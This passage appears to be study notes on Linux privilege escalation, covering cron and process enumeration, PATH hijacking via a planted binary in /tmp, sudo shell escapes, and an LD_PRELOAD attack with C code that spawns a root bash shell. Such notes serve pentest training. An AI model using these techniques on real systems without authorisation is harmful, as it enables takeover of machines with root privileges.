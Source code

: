 ### Schedule Tasks
1. Use `linpeas.sh` to check if something is in the cron or any other.
2. Use `pspy` to check the runtime processes.
![](https://i.imgur.com/zVAVFsV.png)

# PATH variable exploitation

Its a environment variable that specifies the dirs that holds executable programs. When the user runs any command in terminal, it searches for executable files with the help of the PATH var.

*PATH env variable works from left to right i.e it searches for the binaries from left to right in the directories specified in PATH*

`echo $PATH`
so make a executable file in `/tmp` then 

`PATH=/tmp:$PATH`

then whenever you execute ls which was your custom bin made in tmp will be execute other than real ls hence will be executing our real exploit.

# Sudo privilege escalation
#### Other methods of sudo 
- sudo -i
- sudo -s
- sudo passwd
- sudo /bin/bash

#### (LD_PRELOAD)
It is an environment variable which can be set to the path of a shared object (.so) file.
When set the shared object is loaded before any others.
By creating custom shared object and creating an init() function, we can execute code as soon as the object is called.


**Detection:**
Linux VM
1. In command type: `sudo -l`
2. From the output if you see the `LD_PRELOAD` environment variable is intact.
#### Explaination
1. Use the code:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
*x.c*
